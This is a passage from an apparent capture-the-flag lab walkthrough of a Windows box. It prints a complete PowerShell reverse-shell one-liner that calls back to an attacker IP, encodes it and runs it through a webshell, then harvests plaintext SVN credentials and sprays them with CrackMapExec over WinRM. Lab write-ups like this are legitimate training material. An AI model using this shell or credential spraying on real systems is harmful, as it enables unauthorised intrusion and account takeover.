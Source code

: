 The reverse shell command that I will use is from the _Invoke-PowerShellTcpOneLine.ps1_ script from the **Nishang scripts**:
```
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.7',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Encoding it to Base64:
```
cat Invoke-PowerShellTcpOneLine.ps1 | iconv -t utf-16le | base64 -w 0
```

Executing the PowerShell reverse shell command on the webshell:
```
Program: c:\windows\system32\cmd.exe
Argument: /c powershell -enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtA(...)
```

After executing the command, the listener on my IP and port 9001 starts a reverse shell as _IIS Appool\DefaultAppPool_.

## Privilege Escalation

The websites are deployed in the _W:_ share as seen before and this could have some valuable information:
```
dir W:

    Directory: W:\
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       2020-06-16     18:59                agents
d-----       2020-03-28     14:57                AzureDevOpsData
d-----       2020-04-03     11:31                sites
d-----       2020-06-20     16:04                svnrepos
```

In the directory _svnrepos\www\conf_ is a file called _passwd_ with plaintext credentials for all users.

Creating a user and a password list:
```
awk '{print $1}' passwd > users.list
awk '{print $3}' passwd > passwords.list
```

Using **CrackMapExec** to test the passwords for every user:
```
crackmapexec winrm 10.10.10.203 -u users.list -p passwords.list --no-bruteforce --continue-on-success
```
```
WINRM       10.10.10.203    5985   NONE             [+] None\robisl:wolves11 (Pwn3d!)
```
